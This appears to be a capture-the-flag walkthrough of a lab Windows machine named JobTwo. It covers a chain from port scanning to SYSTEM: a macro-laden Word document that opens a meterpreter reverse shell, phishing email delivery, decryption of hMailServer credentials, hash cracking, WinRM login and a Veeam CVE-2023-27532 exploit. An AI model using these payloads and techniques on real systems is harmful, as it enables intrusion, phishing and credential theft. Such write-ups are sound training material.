





# JobTwo
## Enumeration
### Open ports
```python
❯❯❯ nmap -p- --min-rate=2000 -sT -Pn 10.129.238.35 -vv

Host is up, received user-set (0.014s latency).
Scanned at 2026-10-31 19:29:56 GMT for 197s
Not shown: 65508 filtered tcp ports (no-response)
PORT      STATE SERVICE       REASON
22/tcp    open  ssh           syn-ack
25/tcp    open  smtp          syn-ack
80/tcp    open  http          syn-ack
111/tcp   open  rpcbind       syn-ack
135/tcp   open  msrpc         syn-ack
139/tcp   open  netbios-ssn   syn-ack
443/tcp   open  https         syn-ack
445/tcp   open  microsoft-ds  syn-ack
1063/tcp  open  kyoceranetdev syn-ack
2049/tcp  open  nfs           syn-ack
3389/tcp  open  ms-wbt-server syn-ack
5985/tcp  open  wsman         syn-ack
6160/tcp  open  ecmp          syn-ack
6161/tcp  open  patrol-ism    syn-ack
6162/tcp  open  patrol-coll   syn-ack
6169/tcp  open  unknown       syn-ack
6170/tcp  open  unknown       syn-ack
6190/tcp  open  unknown       syn-ack
6210/tcp  open  unknown       syn-ack
6290/tcp  open  unknown       syn-ack
10001/tcp open  scp-config    syn-ack
10002/tcp open  documentum    syn-ack
10003/tcp open  documentum_s  syn-ack
10005/tcp open  stel          syn-ack
10006/tcp open  netapp-sync   syn-ack
11731/tcp open  unknown       syn-ack
49669/tcp open  unknown       syn-ack

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 197.42 seconds
```

### Nmap
```python
❯❯❯ nmap -p 22,25,80,111,135,139,443,445,1063,2049,3389,5985,6160,6161,6162,6169,6170,6190,6210,6290,10001,10002,10003,10005,10006,11731 -A --min-rate=2000 -sT -Pn 10.129.238.35 
Starting Nmap 7.991 ( https://nmap.org ) at 2026-10-31 19:36 +0000
Nmap scan report for 10.129.238.35
Host is up (0.014s latency).

PORT      STATE SERVICE              VERSION
22/tcp    open  ssh                  OpenSSH for_Windows_9.5 (protocol 2.0)
25/tcp    open  smtp                 hMailServer smtpd
| smtp-commands: JOB2, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
80/tcp    open  http                 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
111/tcp   open  rpcbind
135/tcp   open  msrpc                Microsoft Windows RPC
139/tcp   open  netbios-ssn          Microsoft Windows netbios-ssn
443/tcp   open  ssl/https?
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=www.job2.vl
| Subject Alternative Name: DNS:job2.vl, DNS:www.job2.vl
| Not valid before: 2023-05-09T13:31:40
|_Not valid after:  2122-05-09T13:41:37
| tls-alpn: 
|   h2
|_  http/1.1
445/tcp   open  microsoft-ds?
1063/tcp  open  rpcbind
2049/tcp  open  rpcbind
3389/tcp  open  ms-wbt-server        Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: JOB2
|   NetBIOS_Domain_Name: JOB2
|   NetBIOS_Computer_Name: JOB2
|   DNS_Domain_Name: JOB2
|   DNS_Computer_Name: JOB2
|   Product_Version: 10.0.20348
|_  System_Time: 2026-10-31T20:39:07+00:00
| ssl-cert: Subject: commonName=JOB2
| Not valid before: 2026-10-30T20:28:01
|_Not valid after:  2027-05-01T20:28:01
|_ssl-date: 2026-10-31T20:39:38+00:00; +59m53s from scanner time.
5985/tcp  open  http                 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
6160/tcp  open  msrpc                Microsoft Windows RPC
6161/tcp  open  msrpc                Microsoft Windows RPC
6162/tcp  open  msrpc                Microsoft Windows RPC
6169/tcp  open  tcpwrapped
6170/tcp  open  storagecraft-image   StorageCraft Image Manager
6190/tcp  open  msrpc                Microsoft Windows RPC
6210/tcp  open  msrpc                Microsoft Windows RPC
6290/tcp  open  unknown
10001/tcp open  msexchange-logcopier Microsoft Exchange 2010 log copier
10002/tcp open  msexchange-logcopier Microsoft Exchange 2010 log copier
10003/tcp open  storagecraft-image   StorageCraft Image Manager
10005/tcp open  stel?
10006/tcp open  netapp-sync?
11731/tcp open  msrpc                Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|10|11|2012|2016 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_11 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2022 (89%), Microsoft Windows 10 1703 or Windows 11 21H2 - 23H2 (85%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: JOB2; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## SSH (22)



Password based auth

## SMTP (25)

```python
❯❯❯ telnet 10.129.238.35 25                                
Trying 10.129.238.35...
Connected to 10.129.238.35.
Escape character is '^]'.
220 JOB2 ESMTP
HELO 10.129.238.35  
250 Hello.
AUTH NTLM 334
504 Authentication mechanism not supported.
```

It doesnt support NTLM

Not a whole lot i can do with SMTP at the moment

## HTTP (80)

It looks like both port 80 and 443 are running the same service




Looks like i might have a user i might be able send an email to?

## `.docm` macro phishing leads to meterpreter session

So initilly i tried using the templates ntlm theft provides but both failed, but when i tried using macros.....

```python
msf > use exploit/multi/fileformat/office_word_macro
msf exploit(multi/fileformat/office_word_macro) > options

Module options (exploit/multi/fileformat/office_word_macro):

   Name            Current Setting               Required  Description
   ----            ---------------               --------  -----------
   CUSTOMTEMPLATE  /usr/share/metasploit-framew  yes       A docx file that will be used as a template to bu
                   ork/data/exploits/office_wor            ild the exploit
                   d_macro/template.docx
   FILENAME        msf.docm                      yes       The Office document macro file (docm)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.86.128   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**


Exploit target:

   Id  Name
   --  ----
   0   Microsoft Office Word on Windows


View the full module info with the info, or info -d command.

msf exploit(multi/fileformat/office_word_macro) > set lhost tun0
lhost => 10.10.14.61
msf exploit(multi/fileformat/office_word_macro) > set lport 1337
lport => 1337
msf exploit(multi/fileformat/office_word_macro) > run
[*] Using template: /usr/share/metasploit-framework/data/exploits/office_word_macro/template.docx
[*] Injecting payload in document comments
[*] Injecting macro and other required files in document
[*] Finalizing docm: msf.docm
[+] msf.docm stored at /home/kali/.msf4/local/msf.docm
```

I started by using metasploit to create the file, then throwing my IP and port of choice

```python
msf exploit(multi/fileformat/office_word_macro) > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > options

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


View the full module info with the info, or info -d command.

msf exploit(multi/handler) > set lhost tun0
lhost => 10.10.14.61
msf exploit(multi/handler) > set lport 1337
lport => 1337
msf exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.14.61:1337 
```

Ill then set the listener, ill make sure to set the same payload as i did in the file generation, then simply add my IP and port in again

```python
❯❯❯ sendEmail -f attacker@job2.vl -t hr@job2.vl -u 'Job Application' -m 'Here is my resume' -a msf.docm -s job2.vl:25 
Oct 31 20:16:19 localhost sendEmail[42304]: Email was sent successfully!
```

Then ill send the email



And after a second i get a meterpreter session

## Credential hunting

```python
PS C:\Program Files (x86)\hMailServer\Bin> type hMailServer.INI
type hMailServer.INI
[Directories]
ProgramFolder=C:\Program Files (x86)\hMailServer
DatabaseFolder=C:\Program Files (x86)\hMailServer\Database
DataFolder=C:\Program Files (x86)\hMailServer\Data
LogFolder=C:\Program Files (x86)\hMailServer\Logs
TempFolder=C:\Program Files (x86)\hMailServer\Temp
EventFolder=C:\Program Files (x86)\hMailServer\Events
[GUILanguages]
ValidLanguages=english,swedish
[Security]
AdministratorPassword=8a53bc0c0c9733319e5ee28dedce038e
[Database]
Type=MSSQLCE
Username=
Password=4e9989caf04eaa5ef87fd1f853f08b62
PasswordEncryption=1
Port=0
Server=
Database=hMailServer
Internal=1
PS C:\Program Files (x86)\hMailServer\Bin> 
```

Ill look around the file system, and find what looks like encrypted creds

```python
❯❯❯ cat decrypt.py 
from Crypto.Cipher import Blowfish

def blowfish_decrypt_le(cipher_hex: str, key: bytes = b"THIS_KEY_IS_NOT_SECRET") -> str:
    ct = bytes.fromhex(cipher_hex)
    bs = Blowfish.block_size  # 8 bytes per block

    cipher = Blowfish.new(key, Blowfish.MODE_ECB)
    plaintext_bytes = b''

    for i in range(0, len(ct), bs):
        block = ct[i:i+bs]
        # Swap each 4-byte word (big-endian -> little-endian)
        le_block = block[:4][::-1] + block[4:][::-1]
        # Decrypt
        dec_le = cipher.decrypt(le_block)
        # Swap words back
        dec_be = dec_le[:4][::-1] + dec_le[4:][::-1]
        plaintext_bytes += dec_be

    # Strip trailing zero-byte padding
    plaintext_bytes = plaintext_bytes.rstrip(b'\x00')
    return plaintext_bytes.decode('utf-8', errors='ignore')

# Usage
cipher_hex = "4e9989caf04eaa5ef87fd1f853f08b62"
print(blowfish_decrypt_le(cipher_hex))
```

Ill get AI to make me a script in python

Ill need the `pycryptodome` library to run this

```python
(venv) ❯❯❯ python3 decrypt.py                                         
95C02068FD5D
```

I have decrypted the password

```python
PS C:\Program Files (x86)\hMailServer\Database> dir
dir


    Directory: C:\Program Files (x86)\hMailServer\Database


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----         11/1/2026   6:04 PM         675840 hMailServer.sdf                                                      


PS C:\Program Files (x86)\hMailServer\Database> 
```

This password is essentially used to protect this database file

So i need to open the file using the password

```python
PS C:\Program Files (x86)\hMailServer> mkdir C:\Temp
PS C:\Program Files (x86)\hMailServer> cp Database/hMailServer.sdf C:/Temp
```

First ill create a dir i own, then copy the file to the dir i own

```python
PS C:\Program Files (x86)\hMailServer> Add-Type -Path "C:\Program Files (x86)\Microsoft SQL Server Compact Edition\v3.5\Desktop\System.Data.SqlServerCe.dll"
PS C:\Program Files (x86)\hMailServer> $conn = New-Object System.Data.SqlServerCe.SqlCeConnection
PS C:\Program Files (x86)\hMailServer> $conn.ConnectionString = "Data Source=C:\Temp\hMailServer.sdf;Password=95C02068FD5D"
PS C:\Program Files (x86)\hMailServer> $conn.Open()
```

This has setup the connection, when i now query the state it says open

Now i can use this connection to enumerate the DB

```python
Julian@job2.vl    : 8981c81abda0acadf1d12dd9d213bac7c51c022a34268058af3757607075e0eb49f76f
Ferdinand@job2.vl : 04063d4de2e5d06721cfbd7a31390d02d18941d392e86aabe02eda181d9702838baa11
hr@job2.vl        : 1a5adad158ccffd81db73db040c72109067add598fafc47bbbd92da9a69661af94f055
```

Then i can grab the hashes from `hm_accounts`

```python
❯❯❯ hashcat hashes.txt --user /usr/share/wordlists/rockyou.txt

04063d4de2e5d06721cfbd7a31390d02d18941d392e86aabe02eda181d9702838baa11:Franzi123!
```

One of the hashes cracked

This is for the user `ferdinand`

## Compromising `ferdinand`

```python
❯❯❯ nxc smb job2.vl -u 'Ferdinand' -p 'Franzi123!'
SMB         10.129.238.35   445    JOB2             [*] Windows Server 2022 Build 20348 x64 (name:JOB2) (domain:JOB2) (signing:True) (SMBv1:None)
SMB         10.129.238.35   445    JOB2             [+] JOB2\Ferdinand:Franzi123! 
```

This user is now compromised

```python
❯❯❯ nxc winrm job2.vl -u 'Ferdinand' -p 'Franzi123!'   
WINRM       10.129.238.35   5985   JOB2             [*] Windows Server 2022 Build 20348 (name:JOB2) (domain:JOB2) 
WINRM       10.129.238.35   5985   JOB2             [+] JOB2\Ferdinand:Franzi123! (Pwn3d!)
```

This user also has access over WINRM

## WINRM access as `ferdinand`

```python
❯❯❯ evil-winrm-py -i job2.vl -u Ferdinand -p 'Franzi123!'                                        
          _ _            _                             
  _____ _(_| |_____ __ _(_)_ _  _ _ _ __ ___ _ __ _  _ 
 / -_\ V | | |___\ V  V | | ' \| '_| '  |___| '_ | || |
 \___|\_/|_|_|    \_/\_/|_|_||_|_| |_|_|_|  | .__/\_, |
                                            |_|   |__/  v1.7.0

[*] Connecting to 'job2.vl:5985' as 'Ferdinand'
evil-winrm-py PS C:\Users\Ferdinand\Documents>
```

I now have access over WINRM

## CVE-2023-27532

https://www.rapid7.com/blog/post/ra-cve-2023-27532-analysis/

https://github.com/puckiestyle/CVE-2023-27532-RCE-Only

There is also a POC i found with pre compiled binaries to save me compiling it myself

Making an assumption i think ill need the .exe and the three .dll files from the repo

```python
evil-winrm-py PS C:\exploit> upload VeeamHax.exe .
Uploading /home/kali/htb/jobtwo/VeeamHax.exe 7.00k/7.00k [00:00<00:00, 13.9kB/s]
[+] File uploaded successfully as: C:\exploit\VeeamHax.exe
evil-winrm-py PS C:\exploit> upload Veeam.Backup.Common.dll .
Uploading /home/kali/htb/jobtwo/Veeam.Backup.Common.dll: 1.81MB [00:03, 570kB/s]                                                                                                                                     
[+] File uploaded successfully as: C:\exploit\Veeam.Backup.Common.dll
evil-winrm-py PS C:\exploit> upload Veeam.Backup.Interaction.MountService.dll .
Uploading /home/kali/htb/jobtwo/Veeam.Backup.Interaction.MountService.dll: 448kB [00:00, 578kB/s]                                                                                                                    
[+] File uploaded successfully as: C:\exploit\Veeam.Backup.Interaction.MountService.dll
evil-winrm-py PS C:\exploit> upload Veeam.Backup.Model.dll .
Uploading /home/kali/htb/jobtwo/Veeam.Backup.Model.dll: 4.25MB [00:08, 539kB/s]                                                                                                                                      
[+] File uploaded successfully as: C:\exploit\Veeam.Backup.Model.dll
evil-winrm-py PS C:\exploit>
```

Ill upload all 4 files

```python
evil-winrm-py PS C:\exploit> .\VeeamHax.exe --cmd '<base64 encoded reverse shell>'
Targeting 127.0.0.1:9401
```

Ill use revshells to get a powershell reverse shell then drop it in the command and run it



I now have a shell as this SYSTEM



I can then get the root flag
